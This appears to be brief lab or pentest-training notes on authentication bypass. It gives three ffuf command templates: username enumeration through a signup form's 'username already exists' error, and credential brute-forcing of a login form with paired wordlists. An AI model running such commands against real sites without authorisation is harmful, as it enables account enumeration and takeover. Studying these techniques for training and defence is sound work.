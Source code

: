 ## Authentication Bypass

<pre>ffuf -w wordlist -X POST -d data -H header -u url -mr mwssage</pre>
<pre>ffuf -w wordlist -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u url/signup -mr "username already exists"</pre>
<pre>ffuf -w username:W1,password:W2 -X POST -d "username=W1&email=x&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u url/login -fc 200</pre>
